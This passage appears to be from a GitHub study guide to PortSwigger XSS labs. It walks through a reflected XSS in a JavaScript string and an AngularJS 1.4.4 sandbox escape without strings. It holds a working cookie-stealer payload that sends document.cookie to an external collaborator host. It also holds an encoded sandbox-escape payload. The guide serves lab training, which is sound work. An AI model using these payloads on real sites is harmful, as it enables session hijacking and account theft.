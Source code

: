 ```
\';document.location=`https://OASTIFY.COM/?BackTicks=`+document.cookie;//
```  

>With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)  
  
![fail-escape](images/fail-escape.png)  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)  
  
### AngularJS Sandbox Escape  

>Expert PortSwigger Lab exercise using AngularJS 1.4.4 and versions 1.x has reached end of life and is no longer maintained.  
>This lab uses **AngularJS** in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.  
>Objective, perform a cross-site scripting attack that escapes the sandbox and executes the payload without using the `$eval` function.  

[z3nsh3ll - YouTube Video give a great explanation of this Reflected XSS with AngularJS Sandbox Escape Without Strings](https://youtu.be/gKLHVT67sU0?si=tqQMb5Y6xLA-jgR4)  

>***Identify*** the `angular.module` in JavaScript source code:  

![angularJS-sandbox-escape-identify.png](/images/angularJS-sandbox-escape-identify.png)  

>The `key` variable value `search` is injected into the JavaScript created dynamically.  
>No obvious security issue present here. However, the security of this code depends on how this controller and the extracted values are used in the back-end.  

>The `$parse` method evaluates the AngularJS expression `$scope.query`.  

>Using the `&` to add second key value pair to test payload dynamic code generated.  

![angularJS-sandbox-escape-add-2nd-key pair](/images/angularJS-sandbox-escape-add-2nd-keypair.png)  

>Changing the second added key value name to expression to determine if evaluated, `/?search=key1value&7*7=payload` and math result is 49.  

![angularJS-sandbox-escape-2nd-key pair-eval](/images/angularJS-sandbox-escape-2nd-keypair-eval.png)  

>Constructing a payload fails when using `alert()` as the second key name in how angularJS compile the code through the parser.  

>[AngulaJS sandbox - See PortSwigger Client-Side template injection documents](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)  

>[PortSwigger CheatSheet Reference Sandbox 1.4.4 escape](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings))  

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
